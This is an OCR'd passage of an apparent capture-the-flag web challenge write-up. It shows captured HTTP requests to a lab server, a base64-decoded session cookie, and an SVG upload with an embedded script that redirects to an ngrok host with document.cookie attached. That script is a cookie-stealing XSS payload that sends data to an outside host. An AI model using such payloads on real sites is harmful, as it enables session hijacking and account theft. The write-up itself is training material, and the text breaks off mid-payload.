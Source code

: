 
**Registered a user and logged in\. Got a couple cookies:
**
GET /dashboard HTTP/1\.1
Host: 165\.227\.224\.55:30683
User\-Agent: Mozilla/5\.0 \(Windows NT 10\.0; rv:91\.0\) Gecko/20100101 Firefox/91\.0
Accept: text/html,application/xhtml\+xml,application/xml;q=0\.9,image/webp,\*/\*;q=0\.8
Accept\-Language: en\-US,en;q=0\.5
Accept\-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: [http://165.227.224.55:30683/
](#http://165.227.224.55:30683/
)

Cookie: session=eyJ1c2VybmFtZSI6IjEyMy0xMjM0LTEyMzQifQ==; session\.sig=Z0Rpn9iKu\_FbK\_93fp0TiR\-hpRI
Upgrade\-Insecure\-Requests: 1


──╼ $echo "eyJ1c2VybmFtZSI6IjEyMy0xMjM0LTEyMzQifQ==" | base64 \-d
\{"username":"123\-1234\-1234"\}

[https://b0f8-216-93-199-231.ngrok.io/hi.html](#https://b0f8-216-93-199-231.ngrok.io/hi.html)



**Tried putting my cookie stealer in the SVG using JS and ngrok:
**
POST /api/export HTTP/1\.1
Host: 165\.227\.224\.55:30683
User\-Agent: Mozilla/5\.0 \(Windows NT 10\.0; rv:91\.0\) Gecko/20100101 Firefox/91\.0
Accept: \*/\*
Accept\-Language: en\-US,en;q=0\.5
Accept\-Encoding: gzip, deflate
Referer: [http://165.227.224.55:30683/dashboard
](#http://165.227.224.55:30683/dashboard
)

Content\-Type: application/json
Origin: [http://165.227.224.55:30683
](#http://165.227.224.55:30683
)

Content\-Length: 12619
DNT: 1
Connection: close
Cookie: session=eyJ1c2VybmFtZSI6IjEyMy0xMjM0LTEyMzQifQ==; session\.sig=Z0Rpn9iKu\_FbK\_93fp0TiR\-hpRI

\{"svg":"\<svg version=\\"1\.1\\" xmlns=\\"[http://www.w3.org/2000/svg\\"](#http://www.w3.org/2000/svg")
xmlns:xlink=\\"[http://www.w3.org/1999/xlink\\"](#http://www.w3.org/1999/xlink")
width=\\"500\\" height=\\"400\\" viewBox=\\"0,0,500,400\\"\>\<g fill=\\"#e74c3c\\" fill\-rule=\\"nonzero\\" stroke=\\"none\\" stroke\-width=\\"1\\" stroke\-linecap=\\"butt\\" stroke\-linejoin=\\"miter\\" stroke\-miterlimit=\\"10\\" stroke\-dasharray=\\"\\" stroke\-dashoffset=\\"0\\" font\-family=\\"none\\" font\-weight=\\"none\\" font\-size=\\"none\\" text\-anchor=\\"none\\" style=\\"mix\-blend\-mode: normal\\"\>\<script\>document\.location=' [https://1dd3-216-93-199-231.ngrok.io](#https://1dd3-216-93-199-231.ngrok.io)
[/?c='+document.cookie;</script><path](#https://b0f8-216-93-199-231.ngrok.io/?c='+document.cookie;</script><path)
d=\\"M54\.86487,353\.22505c1\.7129,\-6\.88669 1\.7129,\-6\.88669 \-16\.11983,\-48\.16616c\-17\.83274,\-41\.27947 \-17\.83274,\-41\.27947 \-17\.83274,14\.09565c0,55\.37512 0,55\.37512 16\.11983,48\.16616c16\.11983,\-7\.20896 16\.11983,\-7\.20896 17\.83274,\-14\.09565z\\"/\>\<path d=\\"M109\.12979,66\.79172c27\.87353,\-44\.61204 27\.87353,\-44\.61204 \-29\.25196,\-44\.61204c\-57\.12548,0 \-57\.12548,0 \-57\.12548,28\.04606c0,28\.04606 0,28\.04606 29\.25196,44\.61204c29\.25196,16\.56597 29\.25196,16\.56597 57\.12548,\-28\.04606z\\"/\>\<path 
\[\.\.\.\]